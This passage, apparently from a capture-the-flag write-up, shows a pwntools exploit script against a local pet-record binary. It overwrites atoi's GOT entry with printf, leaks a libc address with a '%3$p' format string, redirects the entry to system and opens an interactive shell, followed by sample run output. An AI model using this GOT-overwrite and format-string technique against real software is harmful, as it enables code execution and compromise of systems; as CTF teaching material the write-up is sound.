 ```
	target.recvuntil('>')
	target.sendline(age)
	target.recvuntil('>')
	target.sendline(modify)
	target.recvuntil('>')

def print_pet(index):
	target.sendline('3')
	target.recvuntil('>')
	target.sendline(index)
	target.recvuntil('>')
	name = target.recvline()
	kind = target.recvline()
	age = target.recvline()
	print "name: " + name
	print "kind: " + kind
	print "age: " + age
	target.recvuntil('>')


#Setup and execute the overwrite for the got address of atoi to the plt address of printf
target.recvuntil('>')

create_pet('reverent', 'drummer', '16')
edit_pet('0', '789654123', '95175382', '16', 'n')
create_pet('reverent', atoi_got + p64(0x602100) + p64(0x602300), '16')
edit_pet('0', printf_plt, '15935728', '16', 'y')
print target.recvuntil('>')

#Leak the libc address, and calculate the address of system
target.sendline('%3$p')
leak = target.recvline()
leak = leak.replace("Invalid command! (=+_+=)\n", "")
leak = int(leak, 16)
system = leak + sys_offset
print "The leak is: " + hex(leak)
print "The address of system is: " + hex(system)

#Write over the got address of atoi with the plt address of printf
edit_pet_post_write('\x00', '789654123', '95175382', '1\x00', 'n')
create_pet_post_write('reverent', atoi_got + p64(0x602100) + p64(0x602300)[:6], '1\x00')
edit_pet_post_write('\x00', p64(system), '15935728', 'sh', 'n')

#Drop to an interactive shell
target.interactive()
```

When we run it:

```
$	python exploit.py 
[+] Starting local process './cat': pid 10330
 edit id 0
------------------------------------------------
 1: create pet record
 2: edit pet record
 3: print record
 4: print all record
 5: delete record
 6: exit
------------------------------------------------
which command?
>
The leak is: 0x7f9267372890
```